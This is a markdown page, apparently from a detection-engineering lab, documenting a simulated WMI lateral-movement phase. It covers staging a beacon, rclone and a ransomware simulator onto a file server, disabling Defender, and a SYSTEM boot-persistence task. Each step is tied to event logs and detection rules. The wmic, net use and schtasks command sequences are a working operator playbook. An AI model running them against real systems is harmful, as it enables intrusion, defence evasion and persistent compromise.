# WMI lateral movement

## Tooling

```text
net use \\FS01\C$ /user:C0015\Administrator ***
copy 143.dll, beacon.dll, rclone.exe, rclone.conf, ransomware-sim.exe, run-*.cmd to \\FS01\C$\ProgramData
wmic /node:FS01 /user:C0015\Administrator /password:*** process call create "cmd /c C:\ProgramData\run-*.cmd"
schtasks /create /s FS01 ... /tn C0015Persist /sc onstart /ru SYSTEM
```

| | |
|---|---|
| Chain phase | WMI lateral movement |
| Account | Administrator |
| What happens | WMI with the recovered credential disables Defender on FS01, then delivers the beacon |
| Telemetry | Security 4624 type 3, 4672, Sysmon 1 under WmiPrvSE |
| Detection | R07 / R08 |
| Payload / tooling | none; operator action |

## How the lab reproduces it

See [`attack-playbook/README.md`](../../../attack-playbook/README.md) for the ordered steps, the exact
commands and the checks after each step. Anything this phase writes is listed in
[`attack-playbook/payloads`](../../../attack-playbook/payloads/README.md).

## Evidence


Credential check with the recovered `Administrator` account.


Staged files under `\\FS01\C$\ProgramData`.


R06 (Defender disabled) and R08 (WMI child) alerts.

Run 6, 2026-11-21. Every call below was issued from the WS01 C2 session; nothing was run from the host.

| UTC | Host | Event | Locator | Excerpt |
|---|---|---|---|---|
| 11:54:55.821 | fs01 | E11 | `AaH99e2TxY-KOnHcY6w_` | SMB write of `C:\ProgramData\143.dll` (staged from WS01) |
| 11:54:56.073 | fs01 | E11 | `AaH99e2TxY-KOnHcY6xD` | SMB write of `C:\ProgramData\beacon.dll` |
| 11:57:12.497 | fs01 | 4624 | `AaH99-2TxY-KOnHkaKYL` | type 3, `Administrator`, `TargetLogonId=0x17aa71` |
| 11:57:12.466 | ws01 | E1 | `AaH99-2TxY-KOnHIZ614` | `wmic /node:FS01 /user:C0015\Administrator /password:*** process call create "cmd /c C:\ProgramData\run-def.cmd"` |
| 11:57:12.604 | fs01 | E1 | `AaH99-2TxY-KOnHkaKYb` | `cmd /c C:\ProgramData\run-def.cmd`, parent `WmiPrvSE.exe`, logon `0x17aa71` |
| 11:57:12.824 | ws01 | E1 | `AaH99-2TxY-KOnHIZ62P` | `wmic ... process call create "cmd /c C:\ProgramData\run-inject.cmd"` |
| 11:57:12.777 | fs01 | E1 | `AaH99-2TxY-KOnHkaKYw` | `cmd /c C:\ProgramData\run-inject.cmd`, parent `WmiPrvSE.exe` |

The child process carries the same `LogonId` as the network logon 24 ms earlier, so the WMI child and
the authenticated session are one identity, not a time coincidence.

### Boot persistence (same phase, created over WMI)

| UTC | Event | Locator | Excerpt |
|---|---|---|---|
| 11:59:49.748 | E1 ws01 | `AaH9-u2TxY-KOnEocWZC` | `wmic ... process call create "cmd /c C:\ProgramData\run-persist.cmd"` |
| 11:59:50.142 | E1 fs01 | `AaH9-u2TxY-KOnFDcRjc` | `schtasks.exe /create /tn C0015Persist /tr "rundll32.exe C:\ProgramData\143.dll,Run" /sc onstart /ru SYSTEM /rl HIGHEST /f` |

`C:\ProgramData\c0015\persist.log`:

```
18:59:50 === persist start as c0015\administrator ===
18:59:50  Folder: \ HostName: FS01 TaskName: \C0015Persist Next Run Time: N/A Status: Ready
18:59:50 === persist ready ===
```

FS01 was then rebooted by the operator (console action, outside the C2 path). The boot task fired and a
new beacon session appeared in `svchost.exe` pid 772 (`51cd245d`), while the pre-reboot session
(`e6e3abfb`) is dead. That difference is what proves persistence rather than a still-running process.

### Query screenshots (run-6)



Remote process creation request from `wmic.exe`, `ws01`.



WMI provider child under `WmiPrvSE.exe`, `fs01`.



Network logon type 3 on `fs01`, scoped to `Administrator`.



WMI children on `fs01`.



R07 (source) and R08 (target) alerts side by side.



Boot task creation: `schtasks /create ... /sc onstart`.



The task queried by name, `C0015Persist`.



R19 alert for the boot task.
